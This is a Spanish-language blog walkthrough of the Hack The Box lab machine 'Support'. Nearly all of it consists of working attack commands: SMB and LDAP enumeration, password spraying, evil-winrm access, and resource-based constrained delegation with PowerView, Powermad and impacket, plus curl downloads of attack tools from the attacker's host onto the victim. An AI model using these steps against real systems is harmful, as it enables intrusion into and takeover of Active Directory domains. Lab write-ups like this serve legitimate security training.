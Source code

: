 ```yaml
---
layout: post
title: "Write Up Support."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Windows,HTB,TGT,PowerView,Ldap,EvilWinRM,SMB,Active-Directory,Network,Vulnerability-Assessment,Forensics,Database,Common-Services,Application,Reversing,Traffic,Ldap,WinRM,Custom,SMB,NET,C#,Reconnaissance,User-Enumeration,Privilege-Abuse,Packet-Capture-Analysis,Information-Disclosure,Weak-Cryptography,Hard-coded-Credentials,Active-Directory,Misconfiguration,OSCP,OSEP]
image:
  path: /assets/img/support/support.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.174 -oG allports
```

### Services and Versions


```bash
nmap -sCV p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49957,54662,56835 10.10.11.174 -oN target
```


***
## Vulnerability Analysis


### SMB TCP-445


Con todos esos puetos abiertos es pisible asumir que estamos frente a un `Domain Controler` imediatamente lo que debemos hacer es tratar de explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros .


Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.


![list](/assets/img/support/Parrot-SO3-2022-08-23-15-31-10.png){:.lead width="800" height="100" loading="lazy"}


```bash
crackmapexec smb 10.10.11.174
```


{:.note}
El doninio es `support.htb0`,lo agrgamos al `/etc/hosts`.


Podemos usar smbclien, smbmap, o nbtscan para listar los shares. 


![list](/assets/img/support/Parrot-SO3-2022-08-23-15-53-04.png){:.lead width="800" height="100" loading="lazy"}


```bash
smbmap -H 10.10.11.174 -u guest -R
```


{:.note}
Listamos los shares y vemos el contenido recursivamente.


Vemos el recurso support-tools el cual contiene ciertos archivos pero tiene un archivo muy interesante llamado UserInfo.exe.zip, lo descargamos.


![list](/assets/img/support/Parrot-SO3-2022-08-23-16-48-46.png){:.lead width="800" height="100" loading="lazy"}


Miramos el contenido podemos ver un exe y varios dll, analizaremos el archivo .exe.


![list](/assets/img/support/Parrot-SO3-2022-08-23-16-50-33.png){:.lead width="800" height="100" loading="lazy"}


Analizandolo con dnSpy podemos ver Protected entre otras cosas y si miramos el .cctor() podemos encontrar una cadena llamada enc_password y una key, ahora en getPassword() podemos encontrar la manera de decodear la cadena y podemos hacerlo facilmente con python y obtenemos la cadena decodeada.


![list](/assets/img/support/Parrot-SO3-2022-08-23-19-14-36.png){:.lead width="800" height="100" loading="lazy"}


Enumerando ldap con la contraseña, podemos encontrar un campo info con una contraseña


![list](/assets/img/support/Parrot-SO3-2022-08-23-19-29-24.png){:.lead width="800" height="100" loading="lazy"}


Podemos abusar de los campos name: para crear un diccionario y hacer passwordspray


![list](/assets/img/support/Parrot-SO3-2022-08-23-19-42-40.png){:.lead width="800" height="100" loading="lazy"}


```bash
ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep info:
```

{:.note}
La contraseña es `Ironside47pleasure40Watchful`.


![list](/assets/img/support/Parrot-SO3-2022-08-23-19-47-44.png){:.lead width="800" height="100" loading="lazy"}



```bash
ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep name: | sed 's/^name: //' | grep -vE 'D|C|A|U' > users.txt
```


{:.note}
Grepeamos los usuarios para extraerlos y usarlos mas  adelante.


Utilizamos Crackmapexec para validar el usrio y contraneña.


```bash
crackmapexec winrm 10.10.11.174 -u users.txt -p Ironside47pleasure40Watchful
```


{:.note}
El usuario valido es `support`.


El usuario support es válido, nos conectamos con evil-winrm y podemos leer la flag.


![list](/assets/img/support/Parrot-SO3-2022-08-23-20-26-35.png){:.lead width="800" height="100" loading="lazy"}


```bash
evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```


{:.note}
buscamos la flag de usuario `type ..\Desktop\user.txt`.


***

## Explotacion and Escalation Privileges


Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles vectores para escalar de privilegios.


En este caso vamos a enumerar posibles vectores para escalar privileguios con bloodHound.


```bash
neo4j console
```


{:.note}
Arrancamos neo4j que comparte un servicio por el puero 4747 y te loogeas si ya los has hecho habres el bloodhound.


```bash
bloodhound &> /dev/null & disown
```


{:.note}
Independizamos el proceso.


Nos arroga un archivo.zip que luego no lo pasamos a la maquina atacate y de ahi lo cargamos en el `bloodhound` para interpetar los datos, podemos ver que support tiene el GenericAll expuesto.


Podemos  aprovecharnos de la vulnerabilidad de [Constrained-Delegation] y seguir los pasos de el siguiente artículo para escalar.


[Constrained-Delegation]: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution


Descargamos los modulos módulos de [PowerView.ps1] y [Powermad.ps1] y los importamos.


[PowerView.ps1]:https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


[Powermad.ps1]: https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1


```powershell
curl 10.10.14.18/Powermad.ps1 -o Powermad.ps1
```


{:.note}
Ejecutar en la maquina victima para descargarnos el recurso.


```powershell
curl 10.10.14.18/PowerView.ps1 -o PowerView.ps1
```


{:.note}
Ejecutar en la maquina victima se deb levantar un server web con python.


```powershell
Import-Module .\Powermad.ps1
```


{:.note}
Ejecutar en la maquina victim e importamos el modulo.


```powershell
Import-Module .\PowerView.ps1
```


{:.note}
Ejecutar en la maquina victim e importamos el modulo.


Iniciamos creando una cuenta con el nombre test y la contraseña test123


```powershell
New-MachineAccount -MachineAccount test -Password $(ConvertTo-SecureString 'test123' -AsPlainText -Force) -Verbose
```


{:.note}
Se crea el usuario y contraseña.


Antes de los siguiente pasos necesitamos conseguir el sid de la cuenta que creamos.


```powershell
Get-DomainComputer fake01 -Properties objectsid
```


{:.note}
El objetsid es `S-1-5-21-1677581083-3380853377-188903654-5601`.


Ahora con el sid podemos seguir con los pasos siguientes.


```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5601)"
```


```powershell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```


```powershell
$SD.GetBinaryForm($SDBytes, 0)
```


```powershell
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```


En el punto final mas que jugar con rubeus para obtener el `Ticket Granting silver` podemos hacerlo con impacket.


```powershell
impacket-getST support.htb/test:test123 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
```


{:.note}
Recordar agregar `support.htb` y `dc.support.htb` al archivo `/etc/hosts`.


Con el ticket nos podemos conectar con wmiexec y nos convertimos en Administrator.


```powershell
export KRB5CCNAME=administrator.ccache
```


```powershell
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
```

{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Support de Hack The Box. 🎉
```
{:.centered}
***
Back to [Certification OSCP](2023-07-10-Road-to-OSCP.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSEP](){:.heading.flip-title}
{:.read-more}
